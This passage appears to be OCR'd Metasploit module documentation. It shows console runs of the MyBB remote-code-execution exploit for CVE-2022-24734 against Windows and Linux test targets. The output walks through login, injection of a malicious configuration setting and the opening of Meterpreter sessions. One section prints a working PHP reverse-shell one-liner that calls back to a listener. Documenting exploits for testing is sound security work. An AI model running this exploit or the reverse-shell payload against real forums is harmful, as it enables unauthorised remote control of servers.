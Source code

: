 ```
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...

meterpreter > sysinfo
Computer    : DC02
OS          : Windows NT DC02 10.0 build 17763 (Windows Server 2019) AMD64
Meterpreter : php/windows
```

### Linux (target 0 - PHP)
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (39860 bytes) to 192.168.0.48
[*] Meterpreter session 2 opened (192.168.0.48:4444 -> 192.168.0.48:50029) at 2022-05-23 15:41:58 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...

meterpreter > sysinfo
Computer    : e087259940a8
OS          : Linux e087259940a8 5.10.76-linuxkit #1 SMP Mon Nov 8 10:21:19 UTC 2021 x86_64
Meterpreter : php/linux
```

### Linux (target 1 - Unix (In-Memory))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > set target 1
target => 1
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[+] php -r '$ctxt=stream_context_create(["ssl"=>["verify_peer"=>false,"verify_peer_name"=>false]]);while($s=@stream_socket_client("ssl://192.168.0.48:4444",$erno,$erstr,30,STREAM_CLIENT_CONNECT,$ctxt)){while($l=fgets($s)){exec($l,$o);$o=implode("\n",$o);$o.="\n";fputs($s,$o);}}'&
[*] Started reverse SSL handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
```
